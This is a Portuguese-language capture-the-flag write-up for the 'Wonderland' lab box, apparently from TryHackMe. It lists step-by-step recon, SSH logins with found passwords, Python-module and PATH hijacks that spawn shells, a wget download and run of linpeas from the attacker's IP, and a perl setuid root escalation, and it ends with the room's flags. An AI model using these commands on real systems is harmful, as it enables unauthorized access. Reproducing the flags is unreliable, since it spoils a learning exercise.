

# Wonderland

## Login in server

```bash
nmap -sV -A -n 10.10.70.25
```

> 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
> 
- Vamos abrir a pagina web
    
    ```bash
    gobuster -u 10.10.70.25 -w wordlist/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,txt
    ```
    
- Achamos um estranho diretorio `/r`
    
    
    
- Achamos essa pagina
    
    
    
- Vamos ver se tem mais alguma coisa rodando o gobuster novamente
    
    ```bash
    gobuster -u 10.10.70.25/r -w wordlist/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,txt
    ```
    
- Dessa ves achamos o `/a`
- Estranhamente esta formando a palavra *rabbit* que seria coelho
- Entao vamos ver se existe esse `/b`
- E sim existe, porem caso queria tentar com o gobuster fique a vontade
- Ao fim da palavra *rabbit*
- Vamos abrir o codigo fonte da pagina
    
    
    
- Com esse usuario e possivel senha, vamos tentar logar no ssh
- `alice:HowDothTheLittleCrocodileImproveHisShiningTail`


## Obtain the flag in user.txt

- Vamos procurar algo que possa ser executado
- [https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4](https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4)
    
    ```bash
    find / -user root -perm -4000 2>/dev/null
    ```
    
- Nao achamos nada demais, entao vamos testar outras coisas
    
    ```bash
    sudo -l
    ```
    
    
    
- Bom parece que podemos executar em nome desse *rabbit*
- Entao vamos ver o que tem nesse arquivo `.py`
    
    ```bash
    cat /home/alice/walrus_and_the_carpenter.py
    ```
    
- No comeco dele, ele importa o `random`
- Entao vamos criar um arquivo para esse executavel com nome de random, na mesma pagina desse executavel `.py`
- Nesse conteudo vamos colocar uma shell
    
    ```bash
    nano random.py
    ```
    
- [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)
    
    ```bash
    import os;
    os.system("/bin/sh")
    ```
    
    
    
- Agora vamos deixar nosso arquivo executavel
    
    ```bash
    chmod 777 random.py
    ```
    
- Entao agora que temos tudo, vamos executar como rabbit usando o python que ele pode usar, para executar o arquivo `.py` para chamar nosso programa, para ele abrir um shell do rabbit
    
    ```bash
    sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
    ```
    
- Agora dentro de `/home/rabbit` vamos ver o q tem
    
    ```bash
    ls -la
    ```
    
- Achamos um executavel `teaParty`
- Entao vamos ver seu conteudo
    
    ```bash
    cat teaParty
    ```
    
- Mesmo dificil de ler, vamos procurar por algo
    
    
    
- Achamos esse date, entamo vamos tentar novamente
    
    ```bash
    nano date
    ```
    
    ```bash
    #!/bin/bash
    /bin/bash
    ```
    
    ```bash
    chmod 777 date
    ```
    
- Se tentarmos executar o programa nao ira acontecer nada, entao vamos colocar essa pasta no `$PATH`
    
    ```bash
    export PATH=/home/rabbit:$PATH
    ```
    
- Agora sim podemos executar

---

- Agora que estamos como `hatter`
- Vamos olhar a pasta dele
    
    ```bash
    ls -la /home/hatter
    ```
    
- Tesmo um arquivo de senhas, vamos ver
    
    ```bash
    cd /home/hatter
    ls -la
    cat passwor*
    ```
    
    - `WhyIsARavenLikeAWritingDesk?`
- Para verificar nosso user
    
    ```bash
    id
    ```
    
    
    
- Repare que estamos no grupo do *rabbit,* entao vamos sair e entrar como *hatter*
    
    ```bash
    exit
    exit
    exit
    ssh hatter@10.10.70.25
    WhyIsARavenLikeAWritingDesk?
    ```
    
- Mesmo testando para ver se existe algo para elevar privilegio nao tem nada
- Entao vamos usar um programa pra isso
- No nosso pc
    
    ```bash
    sudo mv linpeas.sh /var/www/html/
    ifconfig
    ```
    
- No pc, logado como hatter
    
    ```bash
    wget 10.8.154.250/linpeas.sh
    chmod 777 linpeas.sh
    ./linpeas.sh
    ```
    
- Descendo um pouco no conteudo mostrado acharemos isso
    
    
    
- ou seja, eh possivel usar o `perl` para executar como sudo, entao vamos procurar
- [https://gtfobins.github.io/gtfobins/perl](https://gtfobins.github.io/gtfobins/perl/)
    
    ```bash
    perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
    whoami
    ```
    
- Agora vamos ver o conteudo desse arquivo
    
    ```bash
    ls /root
    cat /root/user.txt
    ```
    
- `thm{"Curiouser and curiouser!"}`

## Escalate your privileges, what is the flag in root.txt?

```bash
cat /home/alice/root.txt
```

- `thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`